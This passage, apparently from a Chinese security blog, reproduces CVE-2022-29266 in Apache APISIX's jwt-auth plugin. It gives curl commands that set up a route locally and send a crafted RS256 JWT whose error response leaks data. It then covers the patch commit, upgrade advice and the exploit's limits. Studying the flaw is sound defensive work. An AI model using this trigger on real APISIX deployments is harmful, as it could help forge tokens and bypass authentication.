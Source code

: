 创建 Route 对象，并开启 jwt-auth 插件

```shell
 curl http://127.0.0.1:9080/apisix/admin/routes/1 -H 'X-API-KEY: edd1c9f034335f136f87ad84b625c8f1' -X PUT -d '
 {
 "methods": ["GET"],
 "uri": "/index.html",
 "plugins": {
 "jwt-auth": {}
 },
 "upstream": {
 "type": "roundrobin",
 "nodes": {
 "0.0.0.0:80": 1
 }
 }
 }'
```

触发漏洞

```shell
 curl http://127.0.0.1:9080/index.html?jwt=eyJhbGciOiJSUzI1NiIsInR5cCI6IkpXVCJ9.eyJrZXkiOiJycy1rZXkifQ.mF27BBWlXPb3fTiFufhcL3K9y99b8kioMmp7eMwRhB1kZjK62aJ_R6SB0A_Kmym8a7U2S3zYLue9mkD4FGGmhwmkmUGppjZdtwfxrZc7JvvdpJbihNGxdfn9ywUspr6DX831e29VAy1DnLT6cU8do_9MFklxrRbhTVpDOsOADEhh6Q5zdTKPz3h5pKHSQYO4y5Xd0bmRM7TqRvhfIRchmvroaJBQjP6TrDrN_x2elRpPsuabYmCNH_G7m6x5ouf0bqoOkOmsk3alJ6zNZFDY6-aTS4vDD8SDlSbAXkCh5DN-C10YQ6ZYWUGmcbap7hQhaIVJRlZRtaXMFbmabLwhgg -i
```

![](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/202204301604593.png)

可以看到，这里并没有返回刚才设置的 secret 值，而是返回了 not enough data，即 err 的信息，这表明此时 cert 的值已经不为 nil 了，再次证明了上面的分析。

## 漏洞代码修复

观察 APISIX 的漏洞修复信息，可以看到对 jwt-auth.lua 文件的第 364 和 395 行进行了修改，修复信息地址：https://github.com/apache/apisix/commit/61a48a2524a86f2fada90e8196e147538842db89

![](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/202204301602900.png)

这里是将原来的直接返回报错原因改成了返回 JWT token invalid 和 JWT token verify failed 的文本信息。

## 修复方案

- 升级至 Apache APISIX 2.13.1 及以上版本
- 安装补丁包，补丁包地址详见：https://apisix.apache.org/zh/blog/2022/04/20/cve-2022-29266

## 总结

这个漏洞最终造成的风险是 JWT 伪造，但前提是需要对方的 APISIX 开启了 jwt-auth 插件才行，并且如果有细心的读者可能会发现，当我们构造 RS256 算法的 JWT 时，需要先知道目标 APISIX consumer 对象的 key 值，因此这个漏洞利用起来还是有一定限制的。

这篇文章也已经同步到了 T Wiki 云安全知识文库中，文库地址：[wiki.teamssix.com](https://wiki.teamssix.com/)，文库中都是云安全相关的文章，并且有很多来自大家共同贡献的云安全资源，也非常欢迎你一起来补充 T Wiki 云安全知识文库。
